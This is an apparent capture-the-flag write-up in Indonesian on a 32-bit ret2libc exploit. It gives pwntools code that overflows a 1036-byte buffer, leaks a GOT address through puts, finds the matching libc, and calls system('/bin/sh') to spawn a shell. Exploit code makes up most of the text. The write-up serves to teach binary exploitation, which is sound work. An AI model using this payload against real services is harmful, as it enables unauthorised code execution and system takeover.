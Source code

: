 1. Leak got dengan control EIP untuk `puts@plt`.Disini kita bisa buffer dengan `1036` bytes 
```py
    p=b"A"*1036
    p+=p32(exe.plt["puts"])
    p+=p32(exe.sym["main"])
    p+=p32(exe.got[func_name]) #argument
```
3. Lalu kita bisa pergi ke libc.database untuk mencari libc yang tepat
4. Gunakan address libc yang tepat dengan dikurangi  leaked address

5. Setelah semua kita dapatkan kita bisa membuat payload seperti ini
```py
    BINSH=next(libc.search(b"/bin/sh"))
    SYSTEM=libc.sym["system"]
    p=b"A"*1036 # buffer
    p+=p32(SYSTEM) #target function
    p+=p32(exe.sym["main"]) # balik ke ke main
    p+=p32(BINSH) #string argument
``` 
Karena disini menggunakan arsitektur 32-bits maka tidak perlu gadget untuk passing argument